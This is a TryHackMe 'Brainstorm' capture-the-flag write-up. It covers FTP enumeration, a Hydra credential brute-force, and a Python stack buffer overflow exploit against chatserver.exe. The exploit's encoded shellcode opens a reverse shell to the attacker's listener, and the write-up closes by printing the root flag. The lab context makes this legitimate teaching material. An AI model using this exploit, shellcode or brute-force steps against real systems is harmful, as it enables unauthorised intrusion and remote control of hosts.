

Links: [[TryHackMe Boxes]]
#Windows 

# Brainstorm

### System IP: 10.10.219.51
Note that we had to reboot the victim system and this changed the IP. The root flag screenshot and network information uses the IP of 10.10.161.198 instead.

#### Service Enumeration

Server IP Address | Ports Open
------------------|----------------------------------------
10.10.219.51      | **TCP**: 21,9999


**Nmap Scan Results:**
```
# Nmap 7.91 scan initiated Sat Feb 27 13:49:28 2021 as: nmap -vv --reason -Pn -A --osscan-guess --version-all -p- -oN /home/ttl0/autorecon/results/10.10.219.51/scans/_full_tcp_nmap.txt -oX /home/ttl0/autorecon/results/10.10.219.51/scans/xml/_full_tcp_nmap.xml 10.10.219.51
Nmap scan report for 10.10.219.51
Host is up, received user-set (0.091s latency).
Scanned at 2021-02-27 13:49:28 EST for 722s
Not shown: 65533 filtered ports
Reason: 65533 no-responses
PORT     STATE SERVICE REASON          VERSION
21/tcp   open  ftp     syn-ack ttl 127 Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|_  SYST: Windows_NT
9999/tcp open  abyss?  syn-ack ttl 127
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, Hello, Help, JavaRMI, RPCCheck, RTSPRequest, SSLSessionReq: 
|     Welcome to Brainstorm chat (beta)
|     Please enter your username (max 20 characters): Write a message:
|   NULL: 
|     Welcome to Brainstorm chat (beta)
|_    Please enter your username (max 20 characters):
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port9999-TCP:V=7.91%I=9%D=2/27%Time=603A94E0%P=x86_64-pc-linux-gnu%r(NU
SF:LL,52,"Welcome\x20to\x20Brainstorm\x20chat\x20\(beta\)\nPlease\x20enter
SF:\x20your\x20username\x20\(max\x2020\x20characters\):\x20")%r(GetRequest
SF:,63,"Welcome\x20to\x20Brainstorm\x20chat\x20\(beta\)\nPlease\x20enter\x
SF:20your\x20username\x20\(max\x2020\x20characters\):\x20Write\x20a\x20mes
SF:sage:\x20")%r(HTTPOptions,63,"Welcome\x20to\x20Brainstorm\x20chat\x20\(
SF:beta\)\nPlease\x20enter\x20your\x20username\x20\(max\x2020\x20character
SF:s\):\x20Write\x20a\x20message:\x20")%r(FourOhFourRequest,63,"Welcome\x2
SF:0to\x20Brainstorm\x20chat\x20\(beta\)\nPlease\x20enter\x20your\x20usern
SF:ame\x20\(max\x2020\x20characters\):\x20Write\x20a\x20message:\x20")%r(J
SF:avaRMI,63,"Welcome\x20to\x20Brainstorm\x20chat\x20\(beta\)\nPlease\x20e
SF:nter\x20your\x20username\x20\(max\x2020\x20characters\):\x20Write\x20a\
SF:x20message:\x20")%r(GenericLines,63,"Welcome\x20to\x20Brainstorm\x20cha
SF:t\x20\(beta\)\nPlease\x20enter\x20your\x20username\x20\(max\x2020\x20ch
SF:aracters\):\x20Write\x20a\x20message:\x20")%r(RTSPRequest,63,"Welcome\x
SF:20to\x20Brainstorm\x20chat\x20\(beta\)\nPlease\x20enter\x20your\x20user
SF:name\x20\(max\x2020\x20characters\):\x20Write\x20a\x20message:\x20")%r(
SF:RPCCheck,63,"Welcome\x20to\x20Brainstorm\x20chat\x20\(beta\)\nPlease\x2
SF:0enter\x20your\x20username\x20\(max\x2020\x20characters\):\x20Write\x20
SF:a\x20message:\x20")%r(DNSVersionBindReqTCP,63,"Welcome\x20to\x20Brainst
SF:orm\x20chat\x20\(beta\)\nPlease\x20enter\x20your\x20username\x20\(max\x
SF:2020\x20characters\):\x20Write\x20a\x20message:\x20")%r(DNSStatusReques
SF:tTCP,63,"Welcome\x20to\x20Brainstorm\x20chat\x20\(beta\)\nPlease\x20ent
SF:er\x20your\x20username\x20\(max\x2020\x20characters\):\x20Write\x20a\x2
SF:0message:\x20")%r(Hello,63,"Welcome\x20to\x20Brainstorm\x20chat\x20\(be
SF:ta\)\nPlease\x20enter\x20your\x20username\x20\(max\x2020\x20characters\
SF:):\x20Write\x20a\x20message:\x20")%r(Help,63,"Welcome\x20to\x20Brainsto
SF:rm\x20chat\x20\(beta\)\nPlease\x20enter\x20your\x20username\x20\(max\x2
SF:020\x20characters\):\x20Write\x20a\x20message:\x20")%r(SSLSessionReq,63
SF:,"Welcome\x20to\x20Brainstorm\x20chat\x20\(beta\)\nPlease\x20enter\x20y
SF:our\x20username\x20\(max\x2020\x20characters\):\x20Write\x20a\x20messag
SF:e:\x20");
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Microsoft Windows Server 2012 R2 (90%), Microsoft Windows Server 2008 (90%), Microsoft Windows Server 2008 R2 (90%), Microsoft Windows Server 2008 R2 or Windows 8 (90%), Microsoft Windows 7 SP1 (90%), Microsoft Windows 8.1 Update 1 (90%), Microsoft Windows 8.1 R1 (90%), Microsoft Windows Phone 7.5 or 8.0 (90%), Microsoft Windows 7 or Windows Server 2008 R2 (89%), Microsoft Windows Server 2008 or 2008 Beta 3 (89%)
No exact OS matches for host (test conditions non-ideal).
TCP/IP fingerprint:
SCAN(V=7.91%E=4%D=2/27%OT=21%CT=%CU=%PV=Y%DS=2%DC=T%G=N%TM=603A970A%P=x86_64-pc-linux-gnu)
SEQ(SP=106%GCD=1%ISR=10D%TI=I%TS=7)
OPS(O1=M506NW8ST11%O2=M506NW8ST11%O3=M506NW8NNT11%O4=M506NW8ST11%O5=M506NW8ST11%O6=M506ST11)
WIN(W1=2000%W2=2000%W3=2000%W4=2000%W5=2000%W6=2000)
ECN(R=Y%DF=Y%TG=80%W=2000%O=M506NW8NNS%CC=N%Q=)
T1(R=Y%DF=Y%TG=80%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=N)
U1(R=N)
IE(R=N)

Uptime guess: 0.011 days (since Sat Feb 27 13:45:58 2021)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=261 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 21/tcp)
HOP RTT      ADDRESS
1   89.62 ms 10.9.0.1
2   92.33 ms 10.10.219.51

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Feb 27 14:01:30 2021 -- 1 IP address (1 host up) scanned in 722.53 seconds
```

From the scan we see that anonymous login is enabled on FTP, we log in to check:
```
ftp 10.10.219.51
Connected to 10.10.219.51.
220 Microsoft FTP Service
Name (10.10.219.51:ttl0): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> dir
200 PORT command successful.
125 Data connection already open; Transfer starting.
08-29-19  07:36PM       <DIR>          chatserver
226 Transfer complete.
ftp> cd chatserver
250 CWD command successful.
ftp> dir
200 PORT command successful.
125 Data connection already open; Transfer starting.
08-29-19  09:26PM                43747 chatserver.exe
08-29-19  09:27PM                30761 essfunc.dll
226 Transfer complete.
ftp> 

```

Some interesting files but we cannot download them.
```
ftp> get chatserver.exe
local: chatserver.exe remote: chatserver.exe
local: chatserver.exe: Permission denied
ftp> get essfunc.dll
local: essfunc.dll remote: essfunc.dll
local: essfunc.dll: Permission denied
```

We try a raw TCP socket to port 9999 that was also found open:
```
nc 10.10.219.51 9999
Welcome to Brainstorm chat (beta)
Please enter your username (max 20 characters): admin
Write a message: hello


Sat Feb 27 12:30:14 2021
admin said: hello


Write a message:  

```

We believe that the service running on port 9999 is chatserver.exe 

Using Hydra we try and bruteforce for credentials with read access to the ftp server
```
hydra -t 4 -C defaultcreds.txt 10.10.219.51 ftp
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-02-27 15:01:43
[DATA] max 4 tasks per 1 server, overall 4 tasks, 66 login tries, ~17 tries per task
[DATA] attacking ftp://10.10.219.51:21/
[21][ftp] host: 10.10.219.51   login: anonymous   password: anonymous
[21][ftp] host: 10.10.219.51   login: ftp   password: b1uRR3
```

We login using ftp credentials and download both files:
```
ftp 10.10.219.51
Connected to 10.10.219.51.
220 Microsoft FTP Service
Name (10.10.219.51:ttl0): ftp
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
08-29-19  07:36PM       <DIR>          chatserver
226 Transfer complete.
ftp> cd chatserver
250 CWD command successful.
ftp> binary
200 Type set to I.
ftp> dir
200 PORT command successful.
125 Data connection already open; Transfer starting.
08-29-19  09:26PM                43747 chatserver.exe
08-29-19  09:27PM                30761 essfunc.dll
226 Transfer complete.
ftp> get chatserver.exe
local: chatserver.exe remote: chatserver.exe
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
43747 bytes received in 0.51 secs (83.4564 kB/s)
ftp> get essfunc.dll
local: essfunc.dll remote: essfunc.dll
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
30761 bytes received in 0.37 secs (80.6583 kB/s)
```

We transfer these files to a Windows 7 VM that is running Immunity debugger with Mona.

Start a python server
```
sudo python3 -m http.server 80
```

Download the files in a folder called chatserver
```
C:\Users\admin\Desktop\chatserver>certutil.exe -urlcache -split -f "http://10.9.
2.119/chatserver.exe" chatserver.exe
****  Online  ****
CertUtil: -URLCache command FAILED: 0x80072efd (WIN32: 12029)
CertUtil: A connection with the server could not be established

C:\Users\admin\Desktop\chatserver>certutil.exe -urlcache -split -f "http://10.9.2.119/chatserver.exe" chatserver.exe
****  Online  ****
  0000  ...
  aae3
CertUtil: -URLCache command completed successfully.

C:\Users\admin\Desktop\chatserver>certutil.exe -urlcache -split -f "http://10.9.2.119/essfunc.dll" essfunc.dll
****  Online  ****
  0000  ...
  7829
CertUtil: -URLCache command completed successfully.

C:\Users\admin\Desktop\chatserver>dir
 Volume in drive C has no label.
 Volume Serial Number is 0EE5-7CCF

 Directory of C:\Users\admin\Desktop\chatserver

02/27/2021  04:43 PM    <DIR>          .
02/27/2021  04:43 PM    <DIR>          ..
02/27/2021  04:43 PM            43,747 chatserver.exe
02/27/2021  04:43 PM            30,761 essfunc.dll
               2 File(s)         74,508 bytes
               2 Dir(s)  50,287,865,856 bytes free
```

Start the chatserver through immunity debugger:


We test that the server runs on our new VM:
```
nc 10.10.219.51 9999
Welcome to Brainstorm chat (beta)
Please enter your username (max 20 characters): anonymous
Write a message: anonymous


Sat Feb 27 16:47:36 2021
anonymous said: anonymous
```


**Initial Shell Vulnerability Exploited:**

We develop a buffer overflow (see PoC code) and start a listener to see if it works:
```
nc -lvnp 31337
```

We run the exploit.py
```
└─$ ./exploit.py
Sending evil buffer...
Done!
```

We get a shell:
```
└─$ nc -lvnp 31337
listening on [any] 31337 ...
connect to [10.9.2.119] from (UNKNOWN) [10.10.219.51] 49167

```

**Vulnerability Explanation:**
A stack buffer overflow vulnerability exist in the way chatserver.exe reads and writes chat messages. By overflowing the input, we are able to take control of the EIP register and inject vulnerable code into the memory of the essfunc.dll library.

**Vulnerability Fix:**
Patch the vulnerable code in chatserver.exe by using secure programming practices for handling buffers.

**Severity:**
Critical

**Proof of Concept Code Here:**
```python
#!/usr/bin/env python2.7
import socket

ip = "10.10.219.51"
port = 9999

prefix = ""
offset = 6108
overflow = "A" * offset
retn = "\xf7\x14\x50\x62"
padding = "\x90" * 16
buf =  b""
buf += b"\xd9\xcb\xb8\x1c\x09\xd4\xbb\xd9\x74\x24\xf4\x5a\x2b"
buf += b"\xc9\xb1\x52\x83\xc2\x04\x31\x42\x13\x03\x5e\x1a\x36"
buf += b"\x4e\xa2\xf4\x34\xb1\x5a\x05\x59\x3b\xbf\x34\x59\x5f"
buf += b"\xb4\x67\x69\x2b\x98\x8b\x02\x79\x08\x1f\x66\x56\x3f"
buf += b"\xa8\xcd\x80\x0e\x29\x7d\xf0\x11\xa9\x7c\x25\xf1\x90"
buf += b"\x4e\x38\xf0\xd5\xb3\xb1\xa0\x8e\xb8\x64\x54\xba\xf5"
buf += b"\xb4\xdf\xf0\x18\xbd\x3c\x40\x1a\xec\x93\xda\x45\x2e"
buf += b"\x12\x0e\xfe\x67\x0c\x53\x3b\x31\xa7\xa7\xb7\xc0\x61"
buf += b"\xf6\x38\x6e\x4c\x36\xcb\x6e\x89\xf1\x34\x05\xe3\x01"
buf += b"\xc8\x1e\x30\x7b\x16\xaa\xa2\xdb\xdd\x0c\x0e\xdd\x32"
buf += b"\xca\xc5\xd1\xff\x98\x81\xf5\xfe\x4d\xba\x02\x8a\x73"
buf += b"\x6c\x83\xc8\x57\xa8\xcf\x8b\xf6\xe9\xb5\x7a\x06\xe9"
buf += b"\x15\x22\xa2\x62\xbb\x37\xdf\x29\xd4\xf4\xd2\xd1\x24"
buf += b"\x93\x65\xa2\x16\x3c\xde\x2c\x1b\xb5\xf8\xab\x5c\xec"
buf += b"\xbd\x23\xa3\x0f\xbe\x6a\x60\x5b\xee\x04\x41\xe4\x65"
buf += b"\xd4\x6e\x31\x29\x84\xc0\xea\x8a\x74\xa1\x5a\x63\x9e"
buf += b"\x2e\x84\x93\xa1\xe4\xad\x3e\x58\x6f\xd8\xb7\x60\x18"
buf += b"\xb4\xc5\x64\x9c\x2d\x43\x82\x0a\xbe\x05\x1d\xa3\x27"
buf += b"\x0c\xd5\x52\xa7\x9a\x90\x55\x23\x29\x65\x1b\xc4\x44"
buf += b"\x75\xcc\x24\x13\x27\x5b\x3a\x89\x4f\x07\xa9\x56\x8f"
buf += b"\x4e\xd2\xc0\xd8\x07\x24\x19\x8c\xb5\x1f\xb3\xb2\x47"
buf += b"\xf9\xfc\x76\x9c\x3a\x02\x77\x51\x06\x20\x67\xaf\x87"
buf += b"\x6c\xd3\x7f\xde\x3a\x8d\x39\x88\x8c\x67\x90\x67\x47"
buf += b"\xef\x65\x44\x58\x69\x6a\x81\x2e\x95\xdb\x7c\x77\xaa"
buf += b"\xd4\xe8\x7f\xd3\x08\x89\x80\x0e\x89\xa9\x62\x9a\xe4"
buf += b"\x41\x3b\x4f\x45\x0c\xbc\xba\x8a\x29\x3f\x4e\x73\xce"
buf += b"\x5f\x3b\x76\x8a\xe7\xd0\x0a\x83\x8d\xd6\xb9\xa4\x87"
postfix = ""

buffer = prefix + overflow + retn + padding + buf + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
    s.connect((ip, port))
    print("Sending evil buffer...")
    s.send(buffer + "\r\n")
    print("Done!")
except:
    print("Could not connect.")

```

**Local.txt Proof Screenshot**



**Local.txt Contents**

```
c:\Users\drake\Desktop>Hostname && echo %username% && type root.txt && ipconfig /all     
Hostname && echo %username% && type root.txt && ipconfig /all
brainstorm
BRAINSTORM$ 
5b1001de5a44eca47eee71e7942a8f8a
Windows IP Configuration

   Host Name . . . . . . . . . . . . : brainstorm
   Primary Dns Suffix  . . . . . . . : 
   Node Type . . . . . . . . . . . . : Hybrid
   IP Routing Enabled. . . . . . . . : No
   WINS Proxy Enabled. . . . . . . . : No
   DNS Suffix Search List. . . . . . : eu-west-1.compute.internal

Ethernet adapter Local Area Connection 2:

   Connection-specific DNS Suffix  . : eu-west-1.compute.internal
   Description . . . . . . . . . . . : AWS PV Network Device #0
   Physical Address. . . . . . . . . : 02-97-73-13-1C-57
   DHCP Enabled. . . . . . . . . . . : Yes
   Autoconfiguration Enabled . . . . : Yes
   Link-local IPv6 Address . . . . . : fe80::f896:1968:93cb:59fc%13(Preferred) 
   IPv4 Address. . . . . . . . . . . : 10.10.161.198(Preferred) 
   Subnet Mask . . . . . . . . . . . : 255.255.0.0
   Lease Obtained. . . . . . . . . . : Saturday, February 27, 2021 3:44:35 PM
   Lease Expires . . . . . . . . . . : Saturday, February 27, 2021 4:44:35 PM
   Default Gateway . . . . . . . . . : 10.10.0.1
   DHCP Server . . . . . . . . . . . : 10.10.0.1
   DHCPv6 IAID . . . . . . . . . . . : 218558464
   DHCPv6 Client DUID. . . . . . . . : 00-01-00-01-24-FA-68-C4-08-00-27-95-78-BA
   DNS Servers . . . . . . . . . . . : 10.0.0.2
   NetBIOS over Tcpip. . . . . . . . : Enabled

Tunnel adapter isatap.eu-west-1.compute.internal:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . : eu-west-1.compute.internal
   Description . . . . . . . . . . . : Microsoft ISATAP Adapter
   Physical Address. . . . . . . . . : 00-00-00-00-00-00-00-E0
   DHCP Enabled. . . . . . . . . . . : No
   Autoconfiguration Enabled . . . . : Yes

c:\Users\drake\Desktop>

```